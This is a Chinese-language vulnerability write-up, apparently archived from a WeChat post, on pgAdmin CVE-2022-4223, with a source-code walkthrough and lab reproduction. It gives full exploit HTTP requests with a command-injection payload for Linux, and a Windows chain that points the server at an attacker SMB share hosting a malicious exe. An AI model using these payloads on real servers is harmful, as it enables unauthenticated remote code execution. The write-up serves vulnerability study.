# CVE-2022-4223 pgAdmin = 6.16 未授权命令执行漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：受影响 validate_binary_path API、匿名会话与CSRF token；Linux用命令拼接，Windows例依赖可访问SMB及特定工具文件名
- 证据范围：保留Windows UNC链和环境排错的独立价值，不能与98直接删重；先说Windows仅理论后又记录成功环境，应更新状态

### 本次正文校订

- 按实际内容修正 5 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 标题=6.16应核对并规范为<=6.16，实验另用5.7
- Docker命令、HTTP包和Python代码行全部合并，无法直接复现
- Cookie/CSRF样例是否有效取决于实际实验会话，不能直接复用
- Windows恶意exe最终命名必须与检查的工具名一致，操作示例未明确改名

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

标准云
                    标准云  蚁景网络安全   2026-01-30 10:10  
  
  
  
  
  
  
  
https://ftp.postgresql.org/pub/pgadmin/pgadmin4/v5.7/source/pgadmin4-5.7.tar.gz 下载 pgadmin5.7 的源码  
  
首先从代码层面进行分析  
  
  
  
  
接口 /validate_binary_path  
 最后调用了 subprocess.getoutput(  
来执行了命令  
  
  
  
  
  
  
  
  
  
  
这一部分代码是对传入的路径进行检测，如果是在 linux 下直接拼接，在windows 下部署，后缀中会添加 .exe  
 。同时 windows下恶意的exe文件必须是下面几个文件名之一 'pg_dump', 'pg_dumpall', 'pg_restore', 'psql'  
  
‍  
### linux  
  
可以从 docker hub 上搜索 docker 资源 https://hub.docker.com/search?q=pgadmin  
```shell
docker pull dpage/pgadmin4:6.16docker run -e 'PGADMIN_DEFAULT_EMAIL=test@example.com' -e 'PGADMIN_DEFAULT_PASSWORD=123456'  -p 5050:80 --name pgadmin -d  docker.io/dpage/pgadmin4:6.16
```  
  
  
  
  
直接构造发送会提示 The CSRF token is missing.  
  
所以我们先请求路由 login  
  
  
  
image  
  
  
  
```http
POST /misc/validate_binary_path HTTP/1.1Host: 127.0.0.1:5050Upgrade-Insecure-Requests: 1X-pgA-CSRFToken:ImI1OWE1NjQ3ZDZlYjBkYzFmMjgzYzE3MTEyMGRiZTA0MWYwM2YwMjgi.ZhUBBQ.S3V3X0JmCbEcwcpWZkf1TVYVRS4User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Sec-Fetch-Site: noneSec-Fetch-Mode: navigateSec-Fetch-Dest: documentAccept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Cookie: PGADMIN_LANGUAGE=en;pga4_session=bada494b-009f-4c04-bded-20497c5dcf74!pMVxVlI925/AqyV9Oq0RqiPecdo0fWg2hWYHxGDEpYc=;Connection: closeContent-Type: application/jsonContent-Length: 33{"utility_path":"a\";ifconfig;#"}
```  
  
  
  
```python
import osbinary_path = "a\";ifconfig;#"UTILITIES_ARRAY = ['pg_dump', 'pg_dumpall', 'pg_restore', 'psql']for utility in UTILITIES_ARRAY:    full_path = os.path.abspath(        os.path.join(binary_path, (utility if os.name != 'nt' else (utility + '.exe')))    )    print(full_path)
```  
  
  
  
  
我们简化代码在linux 下执行，最后利用;  
 分割执行命令  
### windows  
  
下载软件并进行安装 https://ftp.postgresql.org/pub/pgadmin/pgadmin4/v5.7/windows/pgadmin4-5.7-x64.exe  
  
我们发现同样在 windows 下拼接时是无法利用;  
 分割执行命令，但是可以通过 UNC path指定攻击者的恶意文件  
  
  
  
```python
import osbinary_path = "\\\\192.168.222.1\\TMP\\"UTILITIES_ARRAY = ['pg_dump', 'pg_dumpall', 'pg_restore', 'psql']for utility in UTILITIES_ARRAY:    full_path = os.path.abspath(        os.path.join(binary_path, (utility if os.name != 'nt' else (utility + '.exe')))    )    print(full_path)
```  
  
  
  
  
我们发现通过构造传入参数，我们可以伪造共享地址  
  
  
  
  
windows  下的环境始终无法启动 web 界面，因为环境实在太老了，启动  C:\Users\username\AppData\Local\Programs\pgAdmin 4\v5\web\setup.py  各种版本问题，一直没办法启动成功，所以只做理论上的验证  
  
后来我发现安装完成之后，会在界面下提供一个python目录，所以直接选择该python  来启动项目，需要把C:\Users\username\AppData\Local\Programs\pgAdmin 4\v5\web  下的config.py 修改 DEFAULT_SERVER = '0.0.0.0'  
  
  
  
  
  
  
  
使用impacket提供的smbserver.py脚本构造恶意的smb服务 smbserver.py TMP /tmp  
  
  
  
  
编译恶意的exe文件并放到对应目录  
- • pip install pyinstaller  
  
- • type execute_calc.pyimport subprocessdef execute_calc():    subprocess.call("calc.exe")if __name__ == "__main__":    execute_calc()  
  
- • pyinstaller --onefile execute_calc.py  
  
  
  
```http
POST /misc/validate_binary_path HTTP/1.1Host: 192.168.222.145:5050Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36X-pgA-CSRFToken: Ijg5MDJjOGQ2YmVlNTA1NDMwZjFmODA1ZWNjYTIyNzg5MjExM2EzNDci.Zi3CIg.9u2mEcj30C2tPX0soO3L7tJrp5wAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Cookie: pga4_session=9cd07409-7aca-46c3-8635-e615a7fcd4ac!lthUHprxGzxRdWMWfPm1VLDOLpk=; Connection: closeContent-Type: application/jsonContent-Length: 45{"utility_path":"\\\\192.168.222.128\\TMP\\"}
```  
  
  
  
  
  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzkyNTY3Nzc3Mg==&mid=2247484713&idx=1&sn=28c29e069e8bd8ceb0bb9b8724563a15&chksm=c1c3a48af6b42d9c05802480e731f8054250576e425306e620b110db89c7b6ea9451be2b4976&scene=21#wechat_redirect)  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
